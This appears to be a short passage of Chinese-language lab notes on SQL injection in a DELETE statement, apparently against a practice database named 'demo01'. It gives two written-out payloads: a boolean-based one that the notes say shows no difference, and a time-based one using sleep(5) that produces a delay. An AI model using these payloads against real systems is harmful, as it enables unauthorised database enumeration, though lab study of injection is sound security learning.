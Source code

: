 ![image-20240318145331011](../图片/image-20240318145331011.png)

### Delete 实验

#### 布尔—NO—输出都是一样，无法判断正确还是错误

```
or left(database(),6)='demo01';
```

![image-20240318201815689](../图片/image-20240318201815689.png)

#### 延时注入—YES—有延迟

```
or if(left(database(),6)='demo01',sleep(5),0)
```

![image-20240318204123449](../图片/image-20240318204123449.png)
